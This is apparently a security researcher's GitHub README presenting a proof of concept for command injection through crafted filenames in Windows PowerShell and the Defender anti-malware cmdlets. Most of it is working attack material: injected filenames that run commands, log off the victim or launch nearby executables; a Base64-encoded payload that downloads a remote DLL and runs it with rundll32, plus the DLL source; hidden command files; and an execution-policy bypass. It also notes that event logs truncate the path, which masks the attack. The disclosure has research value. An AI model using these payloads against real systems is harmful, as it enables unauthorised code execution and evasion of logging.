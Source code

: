 # PSTrojanFile
Windows PowerShell Filename and Defender Anti-Malware API - Code Execution POC <br>  
Discovery: John Page (aka hyp3rlinx) 2019 and revisted 2023

Updated Dec 24, 2023 <br>

Bypassing single quotes obstacle in PowerShell for code exec and bonus PS Windows Event log fail! <br>
Semicolon and friend "&" operator join forces for arbitrary code exec capabilities. <br>

Run some unwanted malware: <br>
C:\Users\gg\Downloads>powershell get-filehash  'Infected&ScanMe;.zip'  -algorithm  md5 <br>

OR <br>

Windows defender Anti-malware scan: <br>
powershell Start-MpScan -Scanpath 'C:\Users\gg\Downloads\Infected&Malware;.zip' <br>

Where Malware.exe lives in the same directory, think drive-by download. <br>

Windows Event log fail PS event ID 403, fails to show full path and filename due to truncating: <br>
HostApplication=powershell Start-MpScan -Scanpath 'C:\Users\gg\Downloads\Infected <br>
EngineVersion=5.1.19041.3803 <br>

Call ping cmd <br>
C:\>powershell get-filehash  'powerfail&ping 8.8.8.8&.txt'  -algorithm  md5 <br>

Logoff victim: <br>
C:\>powershell Start-MpScan -Scanpath 'virus&logoff&test.zip' <br>

Updated: Dec 7, 2023 added CL and Windows Defender API vector, see below:

Since it still works, I dusted off and made minor improvements: <br> 
1) Execute a remote DLL using rundll32
2) Execute an unintended secondary PS1 script or local text-file (can be hidden)
3) Updated the PS1 Trojan Filename Creator Python3 Script

First reported to Microsoft back in 2019 yet remains unfixed as of the time of this writing. <br>  
Remote code execution via a specially crafted filename. <br>  

The flaw is due to semicolon ";" we can decode a Base64 command and execute straight from the PS1 filename or just exec commands.

Test;POweRsHeLL -e [BASE64 UTF-16LE PAYLOAD];.ps1 <br>  

Call commands straight away <br>  

"Testing;saps (gc -) PoC;.ps1"

Vectors: double click, drag and drop to PS shortcut

Leverages alternate shorthand PS commands like "saps", "gc" start a process and get-content etc.

DLL Execution Example: <br>  
=======================
Create a trojan PS1 file that will try to download and execute a remote DLL named "1.d"

Python: <br>  
from base64 import b64encode <br>  

b64encode("saps  http[]//127.0.0.1/1.d;sleep -s 2;rundll32 $HOME\\Downloads\\1.d, 0".encode('UTF-16LE')) <br>  

cwBhAHAAcwAgACAAaAB0AHQAcAA6AC8ALwAxADIANwAuADAALgAwAC4AMQAvADEALgBkADsAcwBsAGUAZQBwACAALQBzACAAMgA7AHIAdQBuAGQAbABsADMAMgAgACQASABPAE0ARQBcAEQAbwB3AG4AbABvAGEAZABzAFwAMQAuAGQALAAgADAA

DLL Code: <br>  

#include <windows.h> <br> 

//gcc -shared -o mydll.dll mydll.c -m32 <br>  

//hyp3rlinx <br>  

void evilo(void){ <br>  

MessageBox(0,"Filename Remote Code Execution PoC\r\nBy hyp3rlinx","M$ Windows PowerShell",1); <br>  

} <br>  

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpvReserved){ <br>  

evilo(); <br>  

return 0; <br>  

} <br>  


python -m http.server 80

Double click the trojan PS1 file. <br>  


Text-file Code Execution Example: <br> 
======================================

Create a PS1 file with name including saps "start a process" and gc "get-content", this will read commands from hidden file. <br>  

"Test;saps (gc -) PoC;.ps1" <br>  

Create hidden: attrib +s +h "-" <br>  

Double click or drag and drop.

Requirements: <br>  
=====================

a) PowerShell PS1 files must be set to open with PowerShell as the default program <br>  

b) Set-ExecutionPolicy -Scope CurrentUser -ExecutionPolicy Bypass -Force <br>  

c) User must double-click, run from cmd line or drag and drop the maliciously named PS1 script <br>  


https://www.youtube.com/watch?v=-ZJnA70Cf4I

https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/029d41d2-af58-434d-8d0f-0bf8f01d1c55

![PSTrojanFile](https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/31317076-6ceb-4b28-8062-9c8863b0831d)

Update: Microsoft Defender Anti-Malware PowerShell API - Arbitrary Code Execution.

Microsoft Defender Anti Malware and or PS API's can result in executing arbitrary code.
E.g. scan a directory, shortcut .lnk or even non-existent item, may execute unintended code.
This vector builds upon my previous advisory and subsequent project PSTrojanFile.

Requirements:
1) On CL 'powershell' cmd is prefixed or passed in by calling PowerShell from another script
2) Executable file of same name as the parameter that lives nearby

Examples: <br>
powershell Start-MpScan -Scanpath "C:\Users\gg\Downloads\;saps Helper;.1.zip"
(Helper.exe lives on Desktop)

Create directory  ";saps Test", Test.exe, Test.cmd etc is on same CL path <br>
powershell Add-MpPreference -ControlledFolderAccessAllowedApplications ";saps Test"

Create directory with semicolon, drop PE file named doom.exe in same path.  <br>
powershell Set-ProcessMitigation -PolicyFilePath  "test;saps doom"

Last but not least:
When grabbing a file hash in PowerShell logs you out  :)  <br>
c:\>powershell  get-filehash  -algorithm MD5 "Malware;saps logoff.exe"  <br>

https://www.youtube.com/watch?v=0Go6yJiRWP8

https://github.com/hyp3rlinx/PSTrojanFile/assets/12366009/b033b9f8-1ea0-4ea3-9fa3-56ea63db5b08



